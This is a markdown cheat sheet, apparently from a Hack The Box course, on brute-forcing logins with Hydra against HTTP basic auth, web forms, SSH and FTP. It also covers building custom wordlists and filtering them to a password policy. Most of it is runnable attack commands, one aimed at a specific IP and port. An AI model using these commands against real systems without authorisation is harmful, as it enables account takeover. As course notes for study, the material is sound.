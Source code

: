 # Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |
> we can tell hydra to stop after the first successful login by specifying the flag `-f`  
> We will add the `-u` flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.
>
> example command  
> `hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-post-form://64.227.34.91:30056/login.php:username=^USER^&password=^PASS^:F=<form name='login'" -t 64`
>
> In Hydra’s http-post-form module, success and failure conditions are crucial for properly identifying valid and invalid login attempts. Hydra primarily relies on failure conditions (F=...) to determine when a login attempt has failed, but you can also specify a success condition (S=...) to indicate when a login is successful.




# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/usr/share/seclists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h \| grep "Supported services" \| tr ":" "\n" \| tr " " "\n" \| column -e` | show support services |
| `hydra http-post-form -U` | list the parameters it requires and examples of usage |
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List ||
| `netstat -antp \| grep -i list` | list services |


We now have a generated username.txt list and jane.txt password list, but there is one more thing we need to deal with. CUPP has generated many possible passwords for us, but Jane's company, AHI, has a rather odd password policy.

- Minimum Length: 6 characters
  
Must Include:
- At least one uppercase letter
- At least one lowercase letter
- At least one number
- At least two special characters (from the set !@#$%^&*)

As we did earlier, we can use grep to filter that password list to match that policy:
```
powen@htb[/htb]$ grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```
